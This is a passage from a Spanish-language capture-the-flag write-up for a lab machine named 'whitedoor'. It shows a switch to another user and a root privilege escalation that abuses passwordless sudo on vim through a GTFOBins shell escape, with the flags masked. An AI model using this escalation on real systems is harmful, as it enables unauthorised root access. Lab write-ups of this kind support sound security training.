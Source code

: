 Parece que ya tenemos la contraseña de *Gonzalo*, así que vamos a por la flag de user:

~~~bash
whiteshell@whitedoor:/home/Gonzalo/Desktop$ su Gonzalo 
Password: 
Gonzalo@whitedoor:~/Desktop$ cat user.txt 
Y0*************g!!
~~~


## Escalada de privilegios

Ahora vamos ya a por la de root, así que vamos a revisar los comandos que podemos ejecutar como otros usuarios:

~~~bash
Gonzalo@whitedoor:~/Desktop$ sudo -l
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
~~~

Podemos usar vim como *root*, así que si nos vamos a junto nuestro gran amigo <https://gtfobins.github.io/gtfobins/vim/#sudo> para poder escalar privilegios fácilmente:

~~~bash
Gonzalo@whitedoor:~/Desktop$ sudo vim -c ':!/bin/bash'

root@whitedoor:/home/Gonzalo/Desktop# whoami
root
root@whitedoor:/home/Gonzalo/Desktop# cd /root
root@whitedoor:~# ls
root.txt
root@whitedoor:~# cat root.txt 
Y0******************T!!
~~~

Con esto finalizamos la máquina, agradecer a Pylon por la misma. Nos vemos en la siguiente.